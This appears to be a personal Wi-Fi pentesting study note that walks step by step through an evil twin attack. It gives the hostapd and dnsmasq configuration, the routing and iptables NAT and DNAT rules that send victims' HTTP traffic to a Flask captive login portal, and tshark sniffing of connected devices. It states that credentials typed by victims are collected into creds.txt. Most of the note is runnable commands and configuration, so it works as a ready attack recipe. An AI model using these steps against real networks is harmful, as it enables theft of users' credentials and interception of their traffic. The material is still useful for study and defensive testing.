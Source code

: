 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/wifi-pentesting/29-apr/evil-twin-attack/"}
---
```


Date : 29 Apr, 2025

---
# Evil Twin Attack

- Evil Twin attack is a type of attack where the attacker clones a wifi network tricking users into connecting to a malicious wifi.
## Preparation:

	apt-get update
	apt-get install hostapd dnsmasq
	airmon-ng start wlan0
	
 ## hostapd.conf: 
 
	sudo nano hostapd.conf 

![attachments/Pasted image 20250430061257.png|600](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430061257.png)

- We are going to add the below configuration into `hostapd.conf` file :
![attachments/Pasted image 20250430061207.png|600](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430061207.png)

	interface=[INTERFACE NAME]
	driver=nl80211
	ssid=[WiFi NAME]
	hw_mode=g
	channel=8  
	macaddr_acl=0
	ignore_broadcast_ssid=0

> [!NOTE]
> - The `hostapd.conf` file will use our adapter to run an access point(AP mode)

 ## dnsmasq.conf: 
 
	sudo nano dnsmasq.conf

- Below is the dns configuration for `dnsmasq.conf` file
![attachments/Pasted image 20250430201144.png|600](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430201144.png)

	interface=[INTERFACE NAME]
	dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
	dhcp-option=3, 192.168.1.1
	dhcp-option=6, 192.168.1.1
	server=8.8.8.8 
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	 

> [!NOTE]
> - The `dnsmasq.conf` will allow the connected machines to get an ip address on the basis of our configuration (using DHCP).

 ## Routing table and gateway:

	ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0
	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

![attachments/Pasted image 20250430061643.png|600](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430061643.png)

> [!NOTE]
> - The routing tables and the gateway will make sure the traffic passes through the gateway.


 ## Internet access:

	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface wlan0 -j ACCEPT

![attachments/Pasted image 20250430062001.png|600](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062001.png)
- The above two commands will provide internet access to the connected devices by re-routing the **wlan0** traffic via **eth0**

## Launching AP (Evil Twin Attack) :
![attachments/Pasted image 20250430062137.png](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062137.png)

### Connected device with Internet access
![attachments/Pasted image 20250430062329.png](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062329.png)
![attachments/Pasted image 20250430062406.png|600](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062406.png)
#### The connected device has acquired an ipv4 address via DHCP : 
![attachments/Pasted image 20250430062927.png](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062927.png)

## Launching a login portal : 
#### Clear any old rules
	sudo iptables -t nat -F

#### Redirect HTTP traffic to Flask captive portal
	sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:80
	sudo iptables -t nat -A POSTROUTING -j MASQUERADE

#### Enable IP forwarding (if not already done)
	echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

- I have created a python code that can integrate with `hostapd.conf` to generate a login portal for devices that are connected.
 
![attachments/Pasted image 20250430064156.png](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430064156.png)

![attachments/Pasted image 20250430064214.png](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430064214.png)
![attachments/Pasted image 20250430103230.png|750](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430103230.png)

> [!important]
> - The credentials given by the victims can be collected into creds.txt

![attachments/Pasted image 20250430064929.png](/img/user/Cybersecurity/wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430064929.png)
- The above screenshot shows that I have successfully got the internet access in wifi


---

## Tshark
- It is a packet capture tool or a traffic analysis tool like wireshark
- In this we can specify the interface using `-i`
- To capture the AP traffic we apply : 
  - `tshark -i wlan0`
- sceernshots
- The captured traffic is not saved, it is only for line analysis purpose
- The connected devices are trying to access internet which is being analyzed by attacker(me) via tshark